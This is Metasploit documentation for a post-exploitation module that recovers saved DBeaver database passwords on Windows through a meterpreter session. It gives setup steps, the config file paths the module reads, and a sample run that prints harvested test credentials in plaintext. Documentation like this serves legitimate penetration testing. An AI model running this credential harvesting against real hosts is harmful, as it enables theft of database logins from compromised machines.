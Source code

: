 ## Vulnerable Application

  Any Windows host with a `meterpreter` session and Dbeaver full version
  installed. The following passwords will be searched for and recovered:

### Installation Steps

  1. Download the latest installer of Dbeaver (https://dbeaver.io/files/6.1.0/) and latest version.
  2. Select default installation
  3. Open the software and create a database connection
     complete password setting, add the test account password to the certificate.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/dbeaver```
  3. If the system has registry keys for Dbeaver passwords they will be printed out.

## Options

 **XML_FILE_PATH**

- Specify an XML configuration file.
- eg. `C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml` or 
      `C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver-data-sources.xml`

 **JSON_DIR_PATH**

- Specifies the config dir path for Dbeaver.
- Ensure that there are two files `credentials-config.json` and `data-sources.json` under the directory
- eg. `"C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver`

## Scenarios

```
meterpreter > run post/windows/gather/credentials/dbeaver

[*] Gather Dbeaver Passwords on FireEye
[+] dbeaver .dbeaver-data-sources.xml saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_319751.txt
[*] Finished processing C:\Users\FireEye\.dbeaver4\General\.dbeaver-data-sources.xml
[+] dbeaver credentials-config.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_334807.txt
[+] dbeaver data-sources.json saved to /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_dbeaver.creds_309767.txt
[*] Finished processing C:\Users\FireEye\AppData\Roaming\DBeaverData\workspace6\General\.dbeaver
[+] Passwords stored in: /home/kali-team/.msf4/loot/20221205145256_default_172.16.153.128_host.dbeaver_421133.txt
[+] Dbeaver Password
================

Name             Protocol    Hostname   Port  Username  Password        DB        URI                                        Type
----             --------    --------   ----  --------  --------        --        ---                                        ----
Test_MYSQL       mysql       localhost  3306  root      test_password   db        jdbc:mysql://localhost:3306/db             dev
Test_PostgreSQL  postgresql  localhost  5432  postgres  test_passwordr  postgres  jdbc:postgresql://localhost:5432/postgres  dev
localhost        mysql       localhost  3306  root      test_mysql      db        jdbc:mysql://localhost:3306/db             test
postgres         postgresql  localhost  5432  postgres  test_postgres   postgres  jdbc:postgresql://localhost:5432/postgres  prod

meterpreter > 
```
